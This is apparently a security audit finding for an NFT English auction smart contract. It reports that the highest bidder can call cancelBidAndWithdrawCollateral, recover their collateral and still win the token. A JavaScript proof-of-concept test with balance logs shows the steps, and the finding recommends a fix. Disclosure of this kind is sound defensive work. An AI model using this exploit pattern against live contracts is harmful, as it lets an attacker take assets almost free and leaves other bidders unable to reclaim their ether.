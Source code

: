 Sharp Smoke Walrus

high

# The function cancelBidAndWithdrawCollateral permits the current highest bidder to withdraw assets before the auction concludes.

## Summary
The function `cancelBidAndWithdrawCollateral` permits the current highest bidder to withdraw assets before the auction concludes.

## Vulnerability Detail
This vulnerability hinges on a user maintaining the position of the highest bidder. User A places a bid for `tokenId` 0 on an NFT with a substantial amount. User A subsequently executes `cancelBidAndWithdrawCollateral`, thereby annulling the bid and withdrawing collateral, yet remains the highest bidder for `tokenId` 0. Consequently, when the auction ends, User A obtains the asset almost freely.

Another potential outcome arises when:

`User A` places a bid.
`User B` places a bid.
`User C` places a significantly high bid of XXX ether to retain the highest bidder status, then invokes `cancelBidAndWithdrawCollateral`. Upon bid closure, the previous owner of the `tokenId` receives XXX ether. Consequently, the remaining ether balance in the contract might be insufficient for `User A and User B` to successfully claim their ether. However, if `User A and User B` claim their tokens before the bid closure, the previous owner won't receive payment due to insufficient ether in the contract.


## Impact
The attacker could acquire the NFT at nearly zero cost. Additionally, the remaining ether in the contract might not suffice for every other user who placed a bid to reclaim their ether.

## Poc 
<details>
<summary> click to view Poc </summary>

```javascript
describe('cancelBid', function () {
    it('should allow highest bidder withdraw balance', async function () {
      // Auction start: Now - 200
      // Auction end: Now + 100
      const instance = await getInstance({
        auctionLengthSeconds: 300,
        initialPeriodStartTime: (await time.latest()) - 200,
        licensePeriod: 1000,
      });

      const licenseMock = await ethers.getContractAt(
        'NativeStewardLicenseMock',
        instance.address,
      );

      await licenseMock.connect(owner).mint(nonOwner.address, 0);

      console.log('initial owner of tokenId 0', await licenseMock.ownerOf(0));
      // console.log(await instance);
      const bidAmount = ethers.utils.parseEther('1');
      const bidAmount2 = ethers.utils.parseEther('1.1');
      const bidAmount3 = ethers.utils.parseEther('3.4');

      // 10000_000000000000000000
      const feeAmount = await instance.calculateFeeFromBid(bidAmount);
      const feeAmount2 = await instance.calculateFeeFromBid(bidAmount2);
      const feeAmount3 = await instance.calculateFeeFromBid(bidAmount3);

      const collateralAmount = feeAmount.add(bidAmount);
      const collateralAmount2 = feeAmount2.add(bidAmount2);
      const collateralAmount3 = feeAmount3.add(bidAmount3);

      console.log(
        'initial balance of bidder 1',
        await ethers.provider.getBalance(bidder1.address),
      );
      console.log(
        'initial balance of bidder 2',
        await ethers.provider.getBalance(bidder2.address),
      );
      console.log(
        'initial balance of bidder 3',
        await ethers.provider.getBalance(bidder3.address),
      );
      console.log(
        'initial balance of previous tokenId Owner',
        await ethers.provider.getBalance(nonOwner.address),
      );
      console.log(
        'initial balance of contract address',
        await ethers.provider.getBalance(instance.address),
      );

      console.log('bidder 2 makes first bid');

      await instance
        .connect(bidder2)
        .placeBid(0, bidAmount, { value: collateralAmount });

      console.log('bidder 1 makes second bid');

      await instance.connect(bidder1).placeBid(0, bidAmount2, {
        value: collateralAmount2,
      });

      console.log('bidder 3 makes first bid totalling three bidders');

      await instance.connect(bidder3).placeBid(0, bidAmount3, {
        value: collateralAmount3,
      });
      const initialHighestBidderBalance = await ethers.provider.getBalance(
        bidder3.address,
      );
      console.log('individual balances after placing bid -------');

      console.log(
        ' balance of bidder 1',
        await ethers.provider.getBalance(bidder1.address),
      );
      console.log(
        ' balance of bidder 2',
        await ethers.provider.getBalance(bidder2.address),
      );
      console.log(
        ' balance of bidder 3',
        await ethers.provider.getBalance(bidder3.address),
      );
      console.log(
        ' balance of previous tokenId Owner',
        await ethers.provider.getBalance(nonOwner.address),
      );
      console.log(
        ' balance of contract address',
        await ethers.provider.getBalance(instance.address),
      );

      console.log(
        'bidder 3 which is highest bidder cancels and Withdraws all Bids',
      );
      await instance.connect(bidder3).cancelAllBidsAndWithdrawCollateral(0);

      // @dev uncomment to allow all participants withdraw token...
      // @dev if evveryone  does this closeBid would revert as there would be not enough ether left in the contract...
      // await instance.connect(bidder2).cancelAllBidsAndWithdrawCollateral(0);
      // await instance.connect(bidder1).cancelAllBidsAndWithdrawCollateral(0);

      await time.increase(100);

      console.log('close Auction -------');

      await instance.connect(bidder3).closeAuction(0);

      console.log(
        'final balance of bidder 1',
        await ethers.provider.getBalance(bidder1.address),
      );
      console.log(
        'final balance of bidder 2',
        await ethers.provider.getBalance(bidder2.address),
      );
      console.log(
        'final balance of bidder 3',
        await ethers.provider.getBalance(bidder3.address),
      );
      console.log(
        'final balance of previous tokenId Owner',
        await ethers.provider.getBalance(nonOwner.address),
      );
      console.log(
        'final balance of contract address',
        await ethers.provider.getBalance(instance.address),
      );

      const finalHighestBidderBalance = await ethers.provider.getBalance(
        bidder3.address,
      );

      expect(finalHighestBidderBalance).greaterThan(
        initialHighestBidderBalance,
      );
      console.log('check that new owner of nft is now bidder 3');
      expect(await licenseMock.ownerOf(0)).to.be.equal(bidder3.address);
      console.log(await licenseMock.ownerOf(0), bidder3.address);
    });
}

```

```logs
initial owner of tokenId 0 0x70997970C51812dc3A010C7d01b50e0d17dc79C8
initial balance of bidder 1 BigNumber { value: "10000000000000000000000" }
initial balance of bidder 2 BigNumber { value: "10000000000000000000000" }
initial balance of bidder 3 BigNumber { value: "10000000000000000000000" }
initial balance of previous tokenId Owner BigNumber { value: "10000000000000000000000" }
initial balance of contract address BigNumber { value: "0" }
bidder 2 makes first bid
bidder 1 makes second bid
bidder 3 makes first bid totalling three bidders
individual balances after placing bid -------
 balance of bidder 1 BigNumber { value: "9998789730004476656044" }
 balance of bidder 2 BigNumber { value: "9998899633738318070717" }
 balance of bidder 3 BigNumber { value: "9996259737493474584004" }
 balance of previous tokenId Owner BigNumber { value: "10000000000000000000000" }
 balance of contract address BigNumber { value: "6050000000000000000" }
bidder 3 which is highest bidder cancels and Withdraws all Bids
close Auction -------
final balance of bidder 1 BigNumber { value: "9998789730004476656044" }
final balance of bidder 2 BigNumber { value: "9998899633738318070717" }
final balance of bidder 3 BigNumber { value: "9999999358281090175060" }
final balance of previous tokenId Owner BigNumber { value: "10000340000000000000000" }
final balance of contract address BigNumber { value: "1970000000000000000" }
check that new owner of nft is now bidder 3
0x15d34AAf54267DB7D7c367839AAf71A00a2C6A65 0x15d34AAf54267DB7D7c367839AAf71A00a2C6A65
```
</details>

## Code Snippet
https://github.com/sherlock-audit/2024-02-radicalxchange/blob/main/pco-art/contracts/auction/facets/EnglishPeriodicAuctionFacet.sol#L195
## Tool used

Manual Review

## Recommendation
Implement a conditional Statement that prevents highest Bidder from calling `cancelBidAndWithdrawCollateral`  as implemented in `_cancelBid`

